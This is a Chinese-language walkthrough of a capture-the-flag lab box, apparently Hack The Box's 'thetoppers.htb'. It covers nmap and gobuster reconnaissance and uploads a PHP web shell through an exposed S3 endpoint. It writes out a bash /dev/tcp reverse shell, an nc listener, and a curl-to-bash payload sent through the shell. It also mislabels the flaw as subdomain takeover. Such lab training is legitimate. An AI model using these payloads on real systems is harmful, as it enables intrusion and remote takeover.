 ### 一、操作流程

1. 使用`nmap`扫描主机

> nmap -sV 10.129.67.48
>
```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-06 08:46 CST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.129.67.48
Host is up (1.0s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.36 seconds
```

> 存在80端口和22端口，对22进行爆破无效，访问80

2. 获取敏感信息

> 打开火狐的`Wappalyzer`插件，发现后台语言使用php

3. 虚拟主机爆破

> gobuster vhost -w /usr/share/wordlists/wfuzz/general/common.txt -u <http://thetoppers.htb>
> `http://thetoppers.htb`在访问的页面上获取，并在`/etc/hosts`配置ip映射，爆破后发现存在虚拟主机`http://s3.thetoppers.htb`

4. 连接虚拟主机`http://s3.thetoppers.htb`

> 虚拟主机启用的服务为`Amazon s3`,提供静态网站托管的功能,通常给业务部门存储静态资源

- 连接`Amazon s3`服务
  - 安装:`apt install awscli`
  - 设置:`aws configure`
  - 常用命令:
        > aws --endpoint=<http://s3.thetoppers.htb> s3 ls #查看托管的主机
        > aws --endpoint=<http://s3.thetoppers.htb> s3 ls s3://thetoppers.htb # 查看文件列表,通过这步确认托管了web服务，因此可以利用其他命令行上传后门文件
        >  aws --endpoint=<http://s3.thetoppers.htb> s3 cp shell.php s3://thetoppers.htb #上传文件

5. 反弹shell
>
> - echo "\<?php system($_GET["cmd"]); ?>"   >   shell.php   #生成文件，用来执行操作系统命令
> - 使用`aws`指令上传到服务器
> - 本地启动简易的web服务，如`python3 -m http.server 8000`
> - 本地监听指定端口，如`nc -nvlp 1337`
> - 本地创建shell.sh文件，并写入`bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1`
> - 利用后门文件调用从而反弹shell,即执行`http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash`

### 涉及知识点

1. `Amazon s3`服务
2. 子域名接管漏洞

> 利用子域名使用到期后没有清除其到域名的映射记录，从而被利用

3. 反弹shell
